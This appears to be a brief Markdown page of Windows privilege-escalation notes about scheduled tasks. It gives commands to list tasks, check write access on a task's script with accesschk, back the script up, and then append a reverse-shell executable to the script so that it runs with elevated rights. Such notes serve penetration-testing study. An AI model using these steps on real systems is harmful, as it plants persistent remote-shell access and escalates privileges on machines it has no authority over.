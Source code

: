 ```yaml
---
title: Scheduled Tasks
parent: Method (Windows)
layout: default
nav_order: 4
---
```


1. Check all scheduled tasks: `schtasks /query /fo LIST /v` or Powershell:\
   `Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State `
2. Use accesschk to check on any suspicious script: `accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`
3. Backup the script: `copy C:\DevTools\CleanUp.ps1 C:\Temp\`
4. Start listener and append shell to script: `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`
